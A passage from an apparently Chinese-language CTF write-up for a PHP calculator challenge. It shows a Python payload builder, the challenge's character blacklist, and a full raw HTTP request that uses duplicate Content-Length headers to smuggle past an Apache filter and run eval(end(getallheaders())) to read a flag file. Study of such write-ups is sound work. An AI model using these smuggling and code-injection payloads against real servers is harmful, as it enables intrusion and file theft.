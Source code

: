 ```python
    else :
        return "("+topayload(meth)+")("+(para)+")"
# print(tomethod("var_dump",tomethod("scandir","/"),False))
print(tomethod("var_dump",tomethod("file","/f1agg"),False))
# print(tomethod("file_get_contents","/f1agg"))

```





#### 解法二 HTTP走私

http走私请看:https://paper.seebug.org/1048/



这题php禁用了` $blacklist = [' ', '\t', '\r', '\n','\'', '"', '反引号', '\[', '\]','\$','\\','\^'];`

apache再禁用了字母和不可打印字符

后来看别人的wp知道了,虽然服务器返回400,但是还会将请求转发给后端,标准的http走私

![image.png](https://i.loli.net/2019/10/18/9YgzckxODPiNe6C.png)

真几把神奇，刚看到http走私的时候我还以为是前后端对content-type的解析不同

结合getallheads来绕过php字符限制



最后payload:

```
POST /calc.php?num=eval(end(getallheaders())); HTTP/1.1
Host: node3.buuoj.cn:28023
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.120 Safari/537.36
Referer: http://node3.buuoj.cn:28023/
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 422
Content-Length: 0
A: var_dump(file_get_contents("/f1agg"));


```





#### 解法三 利用php字符串解析特性绕过apache waf



php字符串解析特性
